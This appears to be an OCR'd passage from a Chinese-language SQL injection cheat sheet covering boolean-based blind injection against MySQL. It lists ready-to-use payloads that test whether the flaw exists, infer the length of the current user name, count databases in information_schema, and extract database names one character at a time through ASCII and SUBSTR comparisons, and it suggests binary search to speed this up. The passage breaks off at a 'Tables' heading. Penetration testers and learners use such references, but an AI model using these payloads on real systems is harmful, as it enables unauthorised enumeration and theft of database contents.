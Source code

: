 ## 7. Bool

> 通用

### 7.1. Probe

探测布尔盲注是否可用

```
' AND (LENGTH(USER()) > 1) -- # true
```

```
' AND (LENGTH(USER()) < 1) -- # false
```

```
' AND (LENGTH(USER()) = 14) -- # true
```

> 当长度为 14 时返回为真，说明有 14 个字节;
>
> 可尝试二分法.

### 7.2. Database

判断数据库的个数

```
' AND (SELECT COUNT(*) FROM information_schema.SCHEMATA) = 5 -- 
```

判断第一个数据库名的字节长度

```
' AND (SELECT LENGTH(schema_name) FROM information_schema.SCHEMATA LIMIT 0, 1) = 18 -- 
```

判断第一个数据库名的第一个字符

```
' AND ASCII (SUBSTR((SELECT schema_name FROM information_schema.SCHEMATA LIMIT 0, 1), 1, 1)) = 105 -- 
```

判断当前数据库名的字节长度

```
' AND (LENGTH(DATABASE()) = 7) -- 
```

判断当前数据库名的第一个字符

```
' AND ASCII (SUBSTR(DATABASE(), 1, 1)) = 112 -- 
```

> 使用 `ASCII()` 将提取到的字符转换为 ASCII 码

### 7.2. Tables
